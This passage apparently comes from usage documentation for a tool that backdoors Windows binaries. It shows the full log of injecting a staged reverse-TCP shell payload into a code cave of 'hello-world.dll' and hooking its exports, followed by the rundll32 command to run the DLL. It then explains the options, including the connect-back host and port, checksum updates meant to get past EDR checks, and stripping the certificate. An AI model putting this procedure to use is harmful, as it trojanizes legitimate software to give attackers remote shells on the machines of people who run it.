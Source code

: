 ```bash
2023-12-21 23:33:56,INFO,core.py,[*] Parsing data directories
2023-12-21 23:33:57,INFO,core.py,[*] Creating new IAT in new section IDT_IN_CAVE is False
2023-12-21 23:33:57,INFO,core.py,[*] Adding New Section for updated Import Table
2023-12-21 23:33:57,INFO,core.py,[!] Adding b'LoadLibraryA' Thunk in new IAT
2023-12-21 23:33:57,INFO,core.py,[!] Adding b'GetProcAddress' Thunk in new IAT
2023-12-21 23:33:57,INFO,core.py,[!] Adding b'VirtualAlloc' Thunk in new IAT
2023-12-21 23:33:57,INFO,core.py,[!] Adding b'CreateThread' Thunk in new IAT
2023-12-21 23:33:57,INFO,core.py,Building imports
2023-12-21 23:33:57,ERROR,pe_parse.py,No DISK_OFFSET provided using 0
2023-12-21 23:33:57,INFO,pe_parse.py,[*] Gathering file info
2023-12-21 23:33:57,INFO,core.py,[*] Checking updated IAT for thunks
2023-12-21 23:33:57,INFO,core.py,[*] Checking for APIs
2023-12-21 23:33:57,INFO,core.py,[*] Parsing data directories
2023-12-21 23:33:57,INFO,core.py,[*] The APIs have been located in the file -- or created :D
2023-12-21 23:33:57,INFO,text_loader_dll_reverse_tcp_staged_threaded.py,CreateThread stub len: 0x43, 67
2023-12-21 23:33:57,INFO,dll_loader_single_cave.py,txt_vrt_slck_loc: 6442458755, hex: 0x180001e83
2023-12-21 23:33:57,INFO,dll_loader_single_cave.py,Loader len: 0xcf, 207
2023-12-21 23:33:57,INFO,dll_loader_single_cave.py,payload_stub len: 0x184, 388
2023-12-21 23:33:57,INFO,dll_loader_single_cave.py,ResumeEXE stub len: 1
2023-12-21 23:33:57,INFO,dll_loader_single_cave.py,slack_space_size: hex: 0x17d, 381
2023-12-21 23:33:57,INFO,dll_loader_single_cave.py,Text slack space is large enough
2023-12-21 23:33:57,INFO,core.py,[*] Looking for caves that will fit the minimum shellcode length of 460
2023-12-21 23:33:57,INFO,core.py,[*] All caves lengths: 460
2023-12-21 23:33:57,INFO,core.py,[*] Attempting PE File Automatic Patching
2023-12-21 23:33:57,INFO,core.py,            [!] Selected: 1; Section Name: b'.reloc\x00\x00';             Cave begin: 0x261a;             End: 0x27ea;             Cave Size: 464;             Payload Size: 460             SectionFlags: 0x42000040
2023-12-21 23:33:57,INFO,dll_core.py,Found Export: 1, [10158, 7086, b'MessageBoxThread1']
2023-12-21 23:33:57,INFO,dll_core.py,Export Addresses: [4096, 7036, 1024]
2023-12-21 23:33:57,INFO,dll_core.py,Found Export: 2, [10176, 7104, b'MessageBoxThread2']
2023-12-21 23:33:57,INFO,dll_core.py,Export Addresses: [4144, 7040, 1072]
2023-12-21 23:33:57,INFO,text_loader_dll_reverse_tcp_staged_threaded.py,CreateThread stub len: 0x43, 67
2023-12-21 23:33:57,INFO,support.py,[*] Patching file with patch_instr
2023-12-21 23:33:57,INFO,core.py,[*] Updating PE file checksum
2023-12-21 23:33:57,INFO,backdoor.py,[*] Patching successful!
2023-12-21 23:33:57,INFO,backdoor.py,[*] Output in backdoored/hello-world.dll
```

To execute this DLL you would use rundll32.exe as so: `rundll32.exe hello-world.dll,MessageBoxThread1`. 



Now to explain each part of the command:
PATCH_METHOD - This is the method to use to patch the file. In this case, we're using hook_dll_exports.
MODE - This is the mode to use for the payload. In this case, we're using dll_loader_single_cave. This means that we're going to use a single code cave to load the payload specific to DLLs.
PAYLOAD - This is the payload to use. In this case, we're using text_loader_dll_reverse_tcp_staged_threaded. This means that we're going to use a payload that supports the text loader that will connect back to the host and port specified.
HOST - This is the host to connect back to.
PORT - This is the port to connect back to.
EXPORTS - These are the exports to hook. In this case, we're hooking both MessageBoxThread1 and MessageBoxThread2. You can all use `all` to hook all exports, not recommended generally for large DLLs, best to manually test each export.
CHECKSUM - This is a flag to update the PE file checksum. This is useful for some EDRs that check the PE file checksum.
ZERO_CERT - This is a flag to zero out the certificate table. As the certificate will not be valid, let's remove it. Also, BDF supports code signing, if you bring your own signing certificate.
